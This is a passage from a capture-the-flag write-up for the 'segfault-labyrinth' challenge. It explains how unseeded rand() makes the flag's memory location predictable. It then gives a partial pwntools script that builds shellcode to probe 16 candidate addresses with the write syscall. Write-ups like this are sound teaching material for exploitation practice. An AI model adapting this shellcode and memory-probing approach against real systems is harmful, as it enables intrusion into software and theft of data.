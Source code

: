 After both loops end the last `rw-` allocation is used to store the flag:

```c
        pFVar2 = fopen("flag.txt","r");
        if (pFVar2 == (FILE *)0x0) {
          fwrite("Error: failed to open flag. Exiting.\n",1,0x25,stderr);
          local_114 = -1;
        }
        else {
          sVar4 = fread(__ptr,1,0x1000,pFVar2);
```

One of the last 16 locations will contain the flag, so there is no need to concern ourselves with the previous 9*16 addresses; this reduces any searching to only 16 locations.

`rand()` is used with no seed (defaults to 1), making each location deterministic.

To exploit this we'll use `write` to _write_ out each location.  Any attempt to read memory with pure shellcode will segfault with 15/16 odds since the permissions for 15 of the 16 are `---`.  However, `write`, will return `EFAULT` (`-14`) into `rax`, and then continue on.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *
from ctypes import *

binary = context.binary = ELF('./challenge', checksec=False)

if args.REMOTE:
    p = remote('segfault-labyrinth.2022.ctfcompetition.com', 1337)
else:
    p = process(binary.path)
```

Standard pwntools header.

```python
glibc = cdll.LoadLibrary('libc.so.6')
for i in range(9*16): glibc.rand()

sc = f'''
mov rdi, 1
mov rdx, 100
'''

for i in range(16):
    sc += f'''
    mov rsi, {hex(glibc.rand() * 0x1000 + 0x10000)}
    mov eax, {constants.SYS_write}
    syscall
    cmp rax, 100
    je end
    '''

sc += f'''
end:
xor rdi, rdi
mov eax, {constants.SYS_exit}
syscall
'''
```
